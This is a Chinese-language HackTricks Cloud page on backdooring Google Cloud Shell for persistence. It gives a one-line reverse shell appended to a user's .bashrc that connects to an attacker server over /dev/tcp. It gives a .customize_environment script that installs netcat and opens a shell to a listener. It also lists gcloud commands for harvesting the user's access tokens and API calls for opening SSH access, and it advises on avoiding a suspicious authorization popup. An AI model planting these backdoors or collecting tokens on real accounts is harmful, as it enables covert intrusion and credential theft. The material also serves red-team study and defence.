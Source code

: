 # GCP - Cloud Shell 持久性

<details>

<summary><strong>从零开始学习 AWS 黑客技术直至成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF 版本**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方的 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **提交 PR 来分享您的黑客技巧。**
*
*
*
* &#x20;github 仓库。

</details>

## Cloud Shell

获取更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 持久性后门

[**Google Cloud Shell**](https://cloud.google.com/shell/) 为您提供了直接通过浏览器访问云资源的命令行访问权限，且不会产生任何相关成本。

您可以通过 **网络控制台** 或运行 **`gcloud cloud-shell ssh`** 来访问 Google 的 Cloud Shell。

这个控制台对攻击者来说有一些有趣的功能：

1. **任何有权访问 Google Cloud 的 Google 用户** 都可以访问一个完全认证的 Cloud Shell 实例（即使是组织的所有者，服务账户也可以）。
2. 该实例将 **至少保持其主目录 120 天**，如果没有活动发生。
3. 组织 **无法监控** 该实例的活动。

这基本上意味着，攻击者可以在用户的主目录中放置一个后门，只要用户每 120 天至少连接到 GC Shell 一次，后门就会存活下来，每次运行时攻击者就会得到一个 shell，只需执行以下操作：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

在主目录中还有一个名为 **`.customize_environment`** 的文件，如果该文件存在，每次用户访问 **cloud shell** 时都会**执行**（如前一技术所述）。只需插入前面的后门或类似以下的后门，只要用户“经常”使用 cloud shell，就能保持持久性：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
需要注意的是，**第一次执行需要认证的操作时**，用户浏览器中会出现一个弹出授权窗口。在命令运行之前，必须接受此窗口。如果出现意外的弹出窗口，可能会引起怀疑，并有可能危及正在使用的持久性方法。
{% endhint %}

这是在用户浏览器会话中，以攻击者身份从云端shell执行 `gcloud projects list` 时出现的弹出窗口：


<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然而，如果用户已经积极使用了cloudshell，弹出窗口不会出现，你可以**收集用户的tokens**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### 如何建立SSH连接

基本上，使用了这3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（将允许您添加您本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（将允许您启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（将告诉您google cloud shell的IP地址）

但是您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)找到更多信息

## 参考资料

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧。**
*
*
* &#x20;github仓库。

</details>
